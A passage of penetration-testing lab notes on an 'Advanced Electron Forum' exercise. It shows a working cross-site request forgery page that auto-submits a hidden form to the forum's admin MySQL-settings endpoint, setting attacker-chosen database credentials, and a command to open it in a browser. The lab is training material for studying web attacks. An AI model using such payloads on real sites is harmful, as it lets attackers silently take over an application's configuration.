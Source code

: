 ```

[...]
```

![Lab - Advanced Electron Forum](./assets/05_testing_for_common_attacks_lab_advanced_electron_forum_1.png)

`vim ./csrf.html`:
```html
<form id="DOOM"📌 accept-charset="ISO-8859-1" action="
https://wij0p8tlyeqrezvx1057worm8.eu-central-7.attackdefensecloudlabs.com/index.php?act=admin&adact=conpan&seadact=mysqlset"
method="post" name="mysqlsetform">
<input type="hidden" name="server" value="server.site.com" />
<input type="hidden" name="user" value="hacker" />
<input type="hidden" name="password" value="H4ck3d!" />
<input type="hidden" name="database" value="app" />
<input type="hidden" name="dbprefix" value="aef_" />
<script>document.getElementById('DOOM').submit()</script>📌
</form>
```

`firefox ./csrf.html &`

---

## Injection and Input Validation Attacks

### Command Injection
